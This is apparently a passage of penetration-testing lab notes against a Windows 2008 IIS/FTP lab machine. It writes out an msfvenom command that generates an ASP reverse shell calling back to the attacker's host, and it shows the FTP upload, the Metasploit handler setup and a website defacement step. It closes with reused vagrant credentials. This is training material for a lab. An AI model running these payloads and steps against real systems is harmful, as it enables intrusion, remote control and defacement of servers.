 ```bash
ls
    229 Entering Extended Passive Mode (|||49567|)
    125 Data connection already open; Transfer starting.
    10-28-21  07:22AM       <DIR>          aspnet_client
    10-28-21  07:19AM                   28 caidao.asp
    10-28-21  07:18AM                34251 hahaha.jpg
    10-28-21  07:18AM              1116928 index.html
    10-28-21  07:18AM              2439511 seven_of_hearts.html
    10-28-21  07:18AM               384916 six_of_diamonds.zip
    10-28-21  07:22AM               184946 welcome.png
    
# Web server home directory
```

- IIS can execute `.asp` files
- Generate an `.asp` reverse shell payload and upload it with FTP

```bash
cd cd Desktop/Win2k8/
ip -br -c a
	10.10.24.4/24
	
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.24.4 LPORT=1234 -f asp > shell.aspx
```

```bash
ftp 10.2.29.246
# use vagrant:vagrant
put shell.aspx
```

- Back to the `msfconsole` session tab

```bash
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.24.4
set LPORT 1234
```

- Open the browser and navigate to
  - `10.2.29.246/shell.aspx`
- In this case the reverse shell don't work.
- The next step of an attacker can be to **deface the website** - modifying the web application

```bash
ftp 10.2.29.246
get index.html
# modify the index.html than upload the edited web page
put index.html
```

### [OpenSSH](../3-metasploit/ssh-msf-exp.md)

> Obtain the new target IP if the lab was restarted.
>
> Target IP: `10.2.16.83`
>
> Based on the FTP Enumeration:
>
> - `administrator`:`vagrant`
> - `vagrant`:`vagrant`
